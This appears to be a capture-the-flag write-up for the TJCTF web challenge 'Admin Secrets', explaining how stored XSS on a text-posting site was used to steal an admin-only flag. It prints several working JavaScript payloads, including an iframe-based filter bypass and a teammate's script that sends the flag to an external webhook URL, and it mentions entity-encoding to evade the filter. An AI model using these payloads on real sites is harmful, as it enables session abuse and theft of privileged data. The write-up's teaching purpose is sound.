



### Admin Secrets

Admin Secrets was the last web challenge, with 71 solves and 100 points. I also got first-blood on this challenge ~4 hours into the competition, which I was really happy with!

The website was a "Textbin", where you could register and create posts with any HTML tags you wanted. You could also report posts to the admin. Another obvious XSS challenge.

However, when I first tried reporting to the admin, it wasn't able to connect to any outside resources. I later learned that this was a problem with the website initially, and that it worked later. Well, I solved the problem under the assumption it couldn't connect anywhere :P.

The way I got around this (non-existent) problem was getting the admin to log into my account and create a post to my list of posts. I used the following code segment with jQuery to do this:

```javascript
$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
	$.post("/create_worker", {text: resp});
});
```

Now that I could get responses from the admin, I now needed to find the flag. Looking at the source of the post website, I saw:


Obviously, the flag would be there!

I used the following script to grab that data:

```javascript
window.onload = () => {
	$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
		$.post("/create_worker", {text: $(".admin_console").html()});
	});
}
```

However, upon viewing my new post, I saw that the admin console just had three buttons. However, one of the buttons was named Access Flag. Clicking the button would send a request to `/admin_flag` and respond with the flag. Easy enough.

```javascript
window.onload = () => {
	$.get("/admin_flag", flag => {
		$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
			$.post("/create_worker", {text: flag});
		});
	});
}
```



Oh boy. Actually, when I solved this challenge on day 1, it gave me no information on why my post contained unsafe content. 

So, I had to find a way to bypass the XSS filter and still get the admin to send me the flag. The intended solution was to encode your payload enough to bypass the filter. However, I thought about it in a different way - if the website checks the post to see if there's JavaScript, why not have any JavaScript in the post?

My idea was to create an iframe using the XSS, and inject Javascript INTO the iframe that would fetch the flag and send it to me. Here was my payload:

```javascript
window.onload = () => {
    let iframe = document.createElement("iframe");
    iframe.src = "/posts/pjdNubwOj!FA71Qg";
    iframe.onload = () => {
        iframe.contentWindow.$.ajax({
            type: "GET",
            url: "/admin_flag",
            success: function(resp) {
                iframe.contentWindow.$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
                    iframe.contentWindow.$.post("/create_worker", {text: resp});
                });
            }
        });
    };
    document.body.appendChild(iframe);
}
```

The iframe.src links to a blank post that I made with no JavaScript on it. When the admin views the page, it'll create an iframe with the post, and run JavaScript from that iFrame's context! Then, it'll send me the flag by creating a new post on my profile.



A pretty cool and unintended solution!


```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```


**Note from Drakon:** I solved this the intended way, and I bypassed the filter by just encoding my characters with HTML entities.

The Javascript itself is pretty basic:
```javascript
var script = document.createElement("script");
script.src = "https://code.jquery.com/jquery-3.3.1.min.js";
document.head.appendChild(script);
window.addEventListener("load", function ()
{
	$.ajax(
		{
		type: "GET",
		url: "/admin_flag",
		success: function(resp) {
			flag=resp;
			document.location="https://webhook.site/72244fec-fd93-42f5-8b09-797fccfd078d?c="+btoa(flag);
			}
		}
	);
})
```

I executed the script with the `onerror` attribute, and since you don't need quotes for attributes (as long as the attributes themselves have no spaces or quotes), you can just leave them out.

One small snag was the fact that my solve used jquery, and jquery is loaded in *after* the XSS, so I had to use JS to create a `<script>` tag. The final payload was:
```

```